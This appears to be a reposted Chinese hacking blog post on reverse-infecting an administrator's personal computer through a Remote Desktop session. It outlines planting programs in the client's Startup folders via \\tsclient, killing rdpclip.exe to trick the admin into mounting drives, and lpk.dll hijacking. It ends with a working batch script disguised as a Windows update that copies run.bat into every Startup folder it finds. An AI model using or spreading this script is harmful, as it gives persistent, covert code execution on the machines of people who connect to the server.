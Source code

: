 ```yaml
---
layout: post
title: 远程桌面反向感染管理个人机
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - WinHack
    - RDP
---
```

- **转自t00ls.net [【原文链接】](https://www.t00ls.net/articles-40753.html)**
## 前置条件
1.mstsc需要开启驱动器C盘（win2008及以上只需剪切板即可文件传输）

2.win2003 如果要复制文件必须开驱动器

## 思路
遍历tsclient的自启动目录 -》 添加执行程序 -》个人机重启 -》 上线

++
猥琐一些的思路：脚本找不到挂载磁盘的情况下直接结束rdpclip.exe 使管理员无法使用剪切板功能，他可能在修复时会挂载上磁盘

++
[@ptvip](https://www.t00ls.net/space-uid-5729.html) 老司机思路，传lpk.dll

写bat脚本寻找所有挂载磁盘存在的exe文件，把每个目录都写一个lpk.dll

更新关于dll劫持 （lpk.dll只针对xp系统，高于xp的微软已经用KnownDLLs做了防范，需要发现其他的dll进行劫持）

++
[@Solo_LD](https://www.t00ls.net/space-uid-11455.html)结合蜜罐，反向搞黑客
    @echo off  
    
    echo Updating Windows ...  
    
    @echo off  
    timeout 1 >nul 2>&1  
    
    mkdir \\tsclient\c\temp >nul 2>&1  
    mkdir C:\temp >nul 2>&1
    
    copy run.bat C:\temp >nul 2>&1  
    copy run.bat \\tsclient\c\temp >nul 2>&1
    
    del /q %TEMP%\temp_00.txt >nul 2>&1
    
    set dirs=dir /a:d /b /s C:\users\*Startup*  
    set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*
    
    echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"  
    echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
    
    for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (  
        copy run.bat "%%a" >nul 2>&1  
        copy C:\temp\run.bat "%%a" >nul 2>&1  
        copy \\tsclient\c\temp\run.bat "%%a" >nul 2>&1  
    )
    
    del /q %TEMP%\temp_00.txt >nul 2>&1

